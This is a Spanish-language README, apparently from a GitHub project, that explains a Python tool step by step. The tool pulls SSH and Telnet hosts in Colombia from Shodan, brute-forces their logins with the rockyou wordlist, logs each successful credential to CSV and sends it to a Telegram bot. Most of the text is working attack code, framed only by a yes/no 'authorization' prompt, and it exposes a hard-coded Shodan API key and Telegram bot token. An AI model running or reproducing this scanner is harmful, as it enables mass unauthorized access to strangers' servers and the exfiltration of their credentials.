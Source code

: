 ## **1. Importación de Módulos**
```python
import shodan
import paramiko
import requests
import csv
import socket
import subprocess
import time
from concurrent.futures import ThreadPoolExecutor
import threading
import logging
```
Aquí se importan las librerías necesarias:
- `shodan`: Para buscar dispositivos vulnerables en Shodan.
- `paramiko`: Para conexiones SSH.
- `requests`: Para enviar mensajes por Telegram.
- `csv`: Para almacenar accesos exitosos en un archivo.
- `socket`: Para verificar si los puertos están abiertos.
- `subprocess`: Para ejecutar comandos en el sistema.
- `time`: Para pausas y evitar bloqueos por demasiadas solicitudes.
- `concurrent.futures.ThreadPoolExecutor`: Para ejecutar pruebas en paralelo.
- `threading`: Para el control de acceso a variables compartidas.
- `logging`: Para registrar errores y eventos importantes.

---

## **2. Advertencia Legal y Confirmación**
```python
print("\u26a0\ufe0f ADVERTENCIA: Esta herramienta es solo para fines educativos y debe ser utilizada con autorización.")
confirmacion = input("¿Tienes autorización para auditar estas IPs? (sí/no): ").strip().lower()
if confirmacion != "si":
    print("\ud83d\udeab Operación cancelada por el usuario.")
    exit()
```
- Se muestra una advertencia de uso legal.
- Se pide confirmación al usuario. Si responde distinto de "sí", se cancela la ejecución.

---

## **3. Configuración de Logging**
```python
logging.basicConfig(filename="errors.log", level=logging.ERROR)
logging.basicConfig(filename="telnet_auditoria.log", level=logging.INFO, format="%(asctime)s - %(message)s")
```
- Se configuran logs para registrar errores y eventos.

---

## **4. Configuración de la API de Shodan y Telegram**
```python
API_KEY = "OscSR1MKM2fICcN5KgVBBJIGnXwrIt8z"
TELEGRAM_BOT_TOKEN = "7720656194:AAGRh7hySVMNN36O2IcTl6cJa5vNa-0Sbws"
TELEGRAM_CHAT_ID = "1574894198"
```
- Se definen las credenciales de Shodan y Telegram.
- Si faltan, el programa se detiene.

---

## **5. Variables de Estadísticas**
```python
total_intentos = 0
total_exitosos = 0
total_intentos_telnet = 0
total_exitosos_telnet = 0
```
- Se inicializan variables para contar intentos y éxitos en SSH y Telnet.

---

## **6. Búsqueda de IPs con SSH y Telnet en Shodan**
```python
def search_shodan(query):
    api = shodan.Shodan(API_KEY)
    try:
        result = api.search(query)
        return [service['ip_str'] for service in result['matches']]
    except shodan.APIError as e:
        logging.error(f"Error en Shodan: {e}")
        return []
```
- Se consulta la API de Shodan con una búsqueda específica.
- Se extraen las IPs encontradas.
- Si hay error, se registra en el log.

---

## **7. Envío de Notificaciones por Telegram**
```python
def send_telegram_message(message):
    url = f"https://api.telegram.org/bot{TELEGRAM_BOT_TOKEN}/sendMessage"
    payload = {"chat_id": TELEGRAM_CHAT_ID, "text": message, "parse_mode": "Markdown"}
    try:
        requests.post(url, data=payload)
    except Exception as e:
        logging.error(f"Error enviando mensaje de Telegram: {e}")
```
- Envía mensajes de estado y alertas a un chat de Telegram.

---

## **8. Verificación de Credenciales SSH**
```python
def check_ssh(ip, username, password):
    global total_intentos, total_exitosos
    with lock:
        total_intentos += 1
    
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        client.connect(ip, username=username, password=password, timeout=10, banner_timeout=10)
        
        print(f"\u2705 Acceso exitoso: {ip} - {username}:{password}")

        # Guardar en CSV
        with open("C:/Users/Julian/Desktop/accesos_exitosos.csv", "a", newline="") as file:
            writer = csv.writer(file)
            writer.writerow([ip, username, password])

        # Notificación por Telegram
        send_telegram_message(f"\ud83d\ude80 *Acceso exitoso en* `{ip}`\n\ud83d\udc64 Usuario: `{username}`\n\ud83d\udd11 Contraseña: `{password}`")
        total_exitosos += 1
        client.close()
```
- Prueba credenciales SSH en una IP dada.
- Si la autenticación es exitosa:
  - Se imprime el acceso.
  - Se guarda en CSV.
  - Se envía alerta por Telegram.

---

## **9. Verificación de Credenciales Telnet**
```python
def check_telnet(ip, username, password):
    global total_intentos_telnet, total_exitosos_telnet
    with lock:
        total_intentos_telnet += 1

    try:
        tn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        tn.settimeout(10)
        tn.connect((ip, 23))  

        time.sleep(2)
        response = tn.recv(4096).decode(errors="ignore")  

        if "login:" in response.lower():
            tn.sendall(username.encode() + b"\r\n")  

        time.sleep(1)
        response = tn.recv(1024).decode(errors="ignore")

        if "password:" in response.lower():
            tn.sendall(password.encode() + b"\r\n")  

        time.sleep(1)
        response = tn.recv(1024).decode(errors="ignore")

        if "incorrect" not in response.lower():
            send_telegram_message(f"\ud83d\ude80 *Acceso exitoso en Telnet* `{ip}`\n\ud83d\udc64 Usuario: `{username}`\n\ud83d\udd11 Contraseña: `{password}`")
            total_exitosos_telnet += 1
```
- Similar a SSH, pero para Telnet.
- Si se logra acceso, se envía notificación.

---

## **10. Verificación de Puertos Abiertos**
```python
def is_ssh_open(ip):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(5)
    result = sock.connect_ex((ip, 22))
    sock.close()
    return result == 0
```
- Comprueba si el puerto 22 (SSH) está abierto en una IP.

---
## **11. Carga de Contraseñas de RockYou**
```python
def load_passwords(file_path):
    try:
        with open(file_path, "r", encoding="latin-1") as f:
            return [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        logging.error(f"No se encontró el archivo {file_path}")
        return []
```
- Carga contraseñas desde el diccionario rockyou.txt.

---
## **12. Ejecución de Auditoría**
```python
ssh_ips = search_shodan("port:22 country:CO")[:NUM_IPS_A_ESCANEAR]
telnet_ips = search_shodan("port:23 country:CO")[:NUM_IPS_A_ESCANEAR]

ssh_ips = [ip for ip in ssh_ips if is_ssh_open(ip)]
telnet_ips = [ip for ip in telnet_ips if is_telnet_open(ip)]

```
- Se buscan IPs en Shodan y se filtran por puertos abiertos.
```python
with ThreadPoolExecutor(max_workers=5) as executor:
    for ip in ssh_ips:
        for username, pass_list in credentials.items():
            for password in pass_list:
                executor.submit(check_ssh, ip, username, password)


```
- Ejecuta auditorías en paralelo para SSH y Telnet.
---
## **13. Resumen Final**
```python
send_telegram_message(f"📊 *Resumen de auditoría SSH*:\n🔹 Total intentos: `{total_intentos}`\n✅ Accesos exitosos: `{total_exitosos}`")
send_telegram_message(f"📊 *Resumen de auditoría TELNET*:\n🔹 Total intentos: `{total_intentos_telnet}`\n✅ Accesos exitosos: `{total_exitosos_telnet}`")

```
- Envía un resumen de la auditoría a Telegram.

---
## **EVIDENCIAS**

![IDLE](idle.jpeg)
![Telegram](telegram.jpeg)
